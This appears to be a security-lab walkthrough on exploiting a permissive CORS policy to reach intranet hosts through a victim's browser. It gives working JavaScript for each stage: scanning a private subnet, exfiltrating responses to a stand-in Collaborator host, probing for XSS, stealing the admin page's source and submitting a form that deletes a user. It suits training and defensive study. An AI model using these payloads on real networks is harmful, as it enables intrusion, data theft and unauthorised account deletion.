 Most CORS attack rely on the presence of `Access-Control-Allow-Credentials: true` response header.

Without that header, the victim's user browser will refuse to send cookies. However, there is a common situation where an attacker can't access a website directly, and that is, when the website is part of the organization's intranet and located within a private IP address space.

Internal website or applications are often held to a lower security standards, enabling attackers to find vulnerabilities and gain further access. For example, a CORS request within a private network may be as follows:
```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```
And the server responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```
The response indicates that the server accepts resource request from any origin without credentials. If users within the private IP address space access the public internet then a CORS-based attack can be performed from the external site that uses the victim's browser as a proxy for accessing intranet resources.
## Example Exploit
1. First we need to scan the local network for the endpoint. Replace `$collaboratorPayload` with your own Collaborator payload or exploit server URL. Enter the following code into the exploit server. Click store then "Deliver exploit to victim". Inspect the log or the Collaborator interaction and look at the code parameter sent to it.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.
```html
<script>
var q = [], collaboratorURL = 'http://$collaboratorPayload';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```
2. Clear the code from stage 1 and enter the following code in the exploit server. Replace `$ip` with the IP address and port number retrieved from your collaborator interaction. Don't forget to add your Collaborator payload or exploit server URL again. Update and deliver your exploit. We will now probe the username field for an XSS vulnerability. You should retrieve a Collaborator interaction with `foundXSS=1` in the URL or you will see `foundXSS=1` in the log.
```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
</script>
```
3. Clear the code from stage 2 and enter the following code in the exploit server. Replace `$ip` with the same IP address and port number as in step 2 and don't forget to add your Collaborator payload or exploit server again. Update and deliver your exploit. Your Collaborator interaction or your exploit server log should now give you the source code of the admin page.
```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
</script>
```
4. Read the source code retrieved from step 3 in your Collaborator interaction or on the exploit server log. You'll notice there's a form that allows you to delete a user. Clear the code from stage 3 and enter the following code in the exploit server. Replace `$ip` with the same IP address and port number as in steps 2 and 3. The code submits the form to delete `carlos` by injecting an iframe pointing to the `/admin` page.
```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://$ip");
</script>
```
5. Click on "Deliver exploit to victim" to submit the code. Once you have submitted the form to delete `carlos` then you have completed the lab.